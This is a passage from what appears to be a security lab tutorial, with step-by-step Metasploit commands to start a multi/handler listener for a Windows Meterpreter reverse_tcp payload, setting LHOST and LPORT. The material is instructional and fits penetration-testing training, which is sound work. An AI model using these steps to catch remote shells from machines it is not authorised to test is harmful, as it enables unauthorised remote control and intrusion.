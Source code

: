      - Run `msfconsole`

    - Select an exploit module:  

      - Run `use exploit/multi/handler` 

         - This module is a TCP handler popular among security practitioners.

       - The exploit module executes a sequence of commands to target a specific vulnerability.

   - Next, indicate that we'll be using the following Windows Meterpreter payload: 
    
     - Run `set payload windows/meterpreter/reverse_tcp` 

     - This payload will open the Meterpreter console (`/meterpreter`) and communicate with the remote machine (`/reverse_tcp`).
   
     ![MSF 2](Images/MSF_2.png)

  - Display the payload's options settings: 

      - Run `show options`

  - We need to adjust the following two options: 

     - `set LHOST 192.168.0.8` (insert our local host IP address) 

     - `set LPORT 4444`

       - We can technically use any open port, but for this example we will be using port `4444` since it was established in the payload in Step 1. 
